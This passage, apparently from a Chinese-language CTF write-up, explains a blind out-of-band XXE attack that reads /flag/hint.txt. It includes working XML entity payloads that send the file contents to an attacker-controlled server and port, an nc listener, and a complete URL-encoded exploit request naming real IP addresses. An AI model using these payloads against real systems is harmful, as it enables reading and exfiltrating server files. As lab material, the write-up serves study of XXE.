 ```xml
<!ENTITY % file SYSTEM "file:///flag/hint.txt">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://YourServer:1234/%file;'>">
%init;
%send;
```

- 第一行声明了一个名为file的外部参数实体，内容是hint.txt
- 第二行声明了一个名为init的参数实体，内容是一个实体定义
- init内容的实体中，声明了一个名为send外部参数实体，内容是通过访问一个URL获得的内容
- 第三行引用init这个参数实体，真正的声明了其中的send这个参数实体，URL通过引用file这个参数实体得到真正的拼接值
- 第四行引用send这个参数实体，去访问了拼接出的url，成功的将hint.txt的数据带出
- 访问的url是nc开的端口或者是xss平台，并不会返回正确的DTD或者超时，所以这里最终xml解析失败
- 整个过程发生在解析xml中，数据已然带出。

#### 利用流程

1. 首先自己的服务器上写好可以访问的remote.xml
2. `nc -l 1234`在服务上随便开个端口，等待接受数据，用xss平台也可以
3. 通过GET方法的xmlData参数把第一个xml（url编码）发送给nicaicaikan_url_23333_secret
4. 服务器上接受数据即可

### 攻击流程

#### hint.txt

> loacl.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE flag[
<!ENTITY % remote SYSTEM "http://YourServer/remote.xml">
%remote;]>
<root/>
```

> remote.xml

```xml
<!ENTITY % file SYSTEM "file:///flag/hint.txt">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://YourServer:1234/%file;'>">
%init;
%send;
```

> nc

```
nc -l 1234
```

> url

```
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/rest/user/nicaicaikan_url_23333_secret?xmlData=%3C%3fxml%20version%3d%221%2e0%22%20encoding%3d%22UTF-8%22%3f%3E%0a%3C%21DOCTYPE%20flag%5b%0a%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f103%2e42%2e28%2e252%2fremote%2exml%22%3E%0a%25remote%3b%5d%3E%0a%3Croot%2f%3Ey
```
